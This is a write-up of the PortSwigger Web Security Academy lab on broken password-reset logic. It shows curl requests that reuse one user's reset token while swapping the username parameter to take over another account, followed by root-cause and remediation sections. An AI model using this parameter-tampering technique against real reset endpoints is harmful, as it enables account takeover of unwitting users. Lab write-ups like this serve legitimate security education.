






# Lab: Password Reset Broken Logic

> **Platform:** PortSwigger Web Security Academy  
> **Module:** Authentication vulnerabilities  
> **Lab:** Password reset broken logic  
> **Goal:** Access `carlos`' account

**Lab link:**  
https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-other-authentication-mechanisms/authentication/other-mechanisms/lab-password-reset-broken-logic#

---

## 1. Lab Goal

The goal of this lab was to access `carlos`' account by exploiting a logic flaw in the password reset functionality.

---

## 2. Given Information

The lab gave me the following information:

1. The password reset logic has some vulnerability that can be exploited to access `carlos`' account.
2. We do not have any password list for `carlos`.
3. `wiener:peter` are valid credentials for a user.
4. We have access to `wiener`'s email client.

So, the main idea was clear: this lab was not about brute-forcing `carlos`' password. It was about finding something wrong in the password reset flow.

---

## 3. Vulnerability Summary

The vulnerability was in the password reset confirmation request.

The application generated a password reset token for `wiener`, but when the new password was submitted, the request also contained a `username` parameter. The application trusted this `username` value and did not properly verify that the reset token actually belonged to the same user.

Because of this, I was able to use `wiener`'s valid reset token but change the `username` parameter to `carlos`. This changed `carlos`' password even though the reset token was generated for `wiener`.

---

## 4. Observation

Like always, first I messed around with the site using valid credentials to get a hang of how it was handling stuff.

For this, I used the browser's built-in dev tools to analyze the requests it sent for every action. The most concerning fields for me were:

- the request data/body
- cookies
- request URL
- response behavior

These can reveal a lot of information, so they must be looked at before starting to exploit something.

I logged in as `wiener:peter`. It logged me in like a normal login form should. The login form itself did not have any visible vulnerability like URL-based page access or direct bypass. It managed access through sessions.

There was also an option for resetting the password, and this was the feature that the lab said had a logic vulnerability waiting to be exploited.

---

## 5. Testing the Password Reset Flow

I clicked the reset password option, and it asked for a username or email.

I entered `wiener`.



After submitting the form, the application made a POST request and sent a password reset link to `wiener`'s email.



At this point, I noticed that the reset link had a token in it. My first thought was that maybe the token could somehow be regenerated for `carlos`.

---

## 6. Mistake / Initial Hypothesis

My first hypothesis was:

> Maybe I can regenerate the token for `carlos` and visit the reset page that way.

To quickly test this, I tried decoding the token as Base64 in case it was something simple like a `username:password` encoded value.

But it was not Base64 encoded, and it did not reveal anything useful.

So this hypothesis was wrong.

This was still useful though, because it told me not to waste too much time trying to reverse the token itself. Instead, I continued observing the actual password reset flow.

---

## 7. Continuing the Observation

I clicked the password reset link from `wiener`'s email.

It led me to another page where I could enter a new password.



I entered a new password and submitted the form.

Then I checked the request in dev tools.



I also checked the GET request that loaded the forgot password page.



The important part was the POST request that actually changed the password.

I extracted the request as a `curl` command:

```bash
curl 'https://0a0300f3040e120380246c3b002c008a.web-security-academy.net/forgot-password?temp-forgot-password-token=kp29cr74oezagz8y3y0zx7kgto8fqq3i' \
  --compressed \
  -X POST \
  -H 'Cookie: session=kvivCZdvqRxR0xi7VN2Nai01deBM2dmT' \
  --data-raw 'temp-forgot-password-token=kp29cr74oezagz8y3y0zx7kgto8fqq3i&username=wiener&new-password-1=password&new-password-2=password'
```

The interesting thing here was that the request contained both:

```text
temp-forgot-password-token=kp29cr74oezagz8y3y0zx7kgto8fqq3i
username=wiener
```

This looked suspicious because the token should already identify the user on the backend. The client should not need to tell the server which user is being reset.

---

## 8. Correct Hypothesis

My new hypothesis was:

> The system does not properly match the token with the username in the POST request and instead trusts the submitted `username` value.

If this was true, then I could use `wiener`'s reset token but change the username from `wiener` to `carlos`.

Expected effect:

> I can change the password for `carlos`, even though the token was generated for `wiener`.

---

## 9. Exploitation Steps

To test this, I sent the same password reset request again, but changed this part:

```text
username=wiener
```

To this:

```text
username=carlos
```

The final request looked like this:

```bash
curl 'https://0a0300f3040e120380246c3b002c008a.web-security-academy.net/forgot-password?temp-forgot-password-token=kp29cr74oezagz8y3y0zx7kgto8fqq3i' \
  --compressed \
  -X POST \
  -H 'Cookie: session=kvivCZdvqRxR0xi7VN2Nai01deBM2dmT' \
  --data-raw 'temp-forgot-password-token=kp29cr74oezagz8y3y0zx7kgto8fqq3i&username=carlos&new-password-1=password&new-password-2=password'
```

After sending this request, I went back to the login form and tried logging in as:

```text
Username: carlos
Password: password
```

It worked. I was logged in to `carlos`' account.



So the hypothesis was true, and the lab was solved.

---

## 10. Evidence

### Password reset request for `wiener`

This was the normal password reset request generated after using `wiener`'s reset link:

```bash
curl 'https://0a0300f3040e120380246c3b002c008a.web-security-academy.net/forgot-password?temp-forgot-password-token=kp29cr74oezagz8y3y0zx7kgto8fqq3i' \
  --compressed \
  -X POST \
  -H 'Cookie: session=kvivCZdvqRxR0xi7VN2Nai01deBM2dmT' \
  --data-raw 'temp-forgot-password-token=kp29cr74oezagz8y3y0zx7kgto8fqq3i&username=wiener&new-password-1=password&new-password-2=password'
```

### Modified request for `carlos`

This was the exploited request where I changed the username to `carlos`:

```bash
curl 'https://0a0300f3040e120380246c3b002c008a.web-security-academy.net/forgot-password?temp-forgot-password-token=kp29cr74oezagz8y3y0zx7kgto8fqq3i' \
  --compressed \
  -X POST \
  -H 'Cookie: session=kvivCZdvqRxR0xi7VN2Nai01deBM2dmT' \
  --data-raw 'temp-forgot-password-token=kp29cr74oezagz8y3y0zx7kgto8fqq3i&username=carlos&new-password-1=password&new-password-2=password'
```

### Successful login

```text
Username: carlos
Password: password
```

The successful login confirmed that `carlos`' password had been changed.

---

## 11. Why This Vulnerability Exists

The problem happened because the backend trusted user-controllable input during a sensitive action.

In a secure password reset flow, the reset token should be the only thing used to identify which account is being reset. The user should not be able to submit or modify a `username` parameter and use it to reset another account.

The backend should have done something like:

1. Receive the reset token.
2. Look up which user owns that token on the server side.
3. Reset only that user's password.
4. Ignore any client-supplied username value.

But in this lab, the backend accepted the username from the request body, which allowed the logic to be abused.

---

## 12. Remediation / Fix

To fix this issue, the application should bind each password reset token to a specific user on the server side.

The reset flow should work like this:

1. Generate a high-entropy password reset token.
2. Store the token on the backend with the associated user account.
3. When the token is submitted, look up the user from the token server-side.
4. Do not trust a `username` parameter from the client during the reset confirmation step.
5. Expire the token after a short time.
6. Destroy the token immediately after it is used.
7. Reject reused, expired, missing, or mismatched tokens.

The important rule is:

```text
The reset token should decide which account is reset, not a username parameter controlled by the user.
```

---

## 13. Lessons Learned

- Password reset tokens must be tied to a user on the backend.
- Sensitive actions should not trust user-controlled parameters like `username`.
- A token may be random and secure, but the logic around it can still be broken.
- Failed hypotheses are still useful if they help narrow down the real vulnerability.
- Always inspect the final POST request that performs the sensitive action.

---

## 14. Final Summary

This lab demonstrated a broken password reset logic vulnerability. I first tried to understand the reset token itself, but that was not the issue. The real issue was in the password reset POST request, where the application accepted a user-controlled `username` parameter. By using `wiener`'s valid reset token and changing the username to `carlos`, I was able to reset `carlos`' password and log in to his account.
